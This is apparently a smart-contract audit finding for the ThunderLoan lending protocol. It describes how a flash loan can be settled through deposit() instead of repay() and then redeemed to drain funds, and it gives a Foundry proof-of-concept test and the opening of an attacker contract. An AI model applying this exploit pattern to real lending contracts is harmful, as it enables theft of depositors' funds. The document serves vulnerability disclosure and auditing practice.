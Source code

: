 ## Vulnerability Details
The **`flashloan()`** performs a crucial balance check to ensure that the ending balance, after the flash loan, exceeds the initial balance, accounting for any borrower fees. This verification is achieved by comparing **`endingBalance`** with **`startingBalance + fee`**. However, a vulnerability emerges when calculating endingBalance using **`token.balanceOf(address(assetToken))`**.

Exploiting this vulnerability, an attacker can return the flash loan using the **`deposit()`** instead of **`repay()`**. This action allows the attacker to mint **`AssetToken`** and subsequently redeem it using **`redeem()`**. What makes this possible is the apparent increase in the Asset contract's balance, even though it resulted from the use of the incorrect function. Consequently, the flash loan doesn't trigger a revert.
## POC
To execute the test successfully, please complete the following steps:
1. Place the **`attack.sol`** file within the mocks folder.
1. Import the contract in **`ThunderLoanTest.t.sol`**.
1. Add **`testattack()`** function in **`ThunderLoanTest.t.sol`**.
1. Change the **`setUp()`** function in **`ThunderLoanTest.t.sol`**.
```Solidity
import { Attack } from "../mocks/attack.sol";
```
```Solidity
function testattack() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        vm.startPrank(user);
        tokenA.mint(address(attack), AMOUNT);
        thunderLoan.flashloan(address(attack), tokenA, amountToBorrow, "");
        attack.sendAssetToken(address(thunderLoan.getAssetFromToken(tokenA)));
        thunderLoan.redeem(tokenA, type(uint256).max);
        vm.stopPrank();

        assertLt(tokenA.balanceOf(address(thunderLoan.getAssetFromToken(tokenA))), DEPOSIT_AMOUNT);   
    }
```
```Solidity
function setUp() public override {
        super.setUp();
        vm.prank(user);
        mockFlashLoanReceiver = new MockFlashLoanReceiver(address(thunderLoan));
        vm.prank(user);
        attack = new Attack(address(thunderLoan));   
    }
```
attack.sol
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { SafeERC20 } from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import { IFlashLoanReceiver } from "../../src/interfaces/IFlashLoanReceiver.sol";

interface IThunderLoan {
    function repay(address token, uint256 amount) external;
    function deposit(IERC20 token, uint256 amount) external;
    function getAssetFromToken(IERC20 token) external;
}


contract Attack {
    error MockFlashLoanReceiver__onlyOwner();
    error MockFlashLoanReceiver__onlyThunderLoan();

```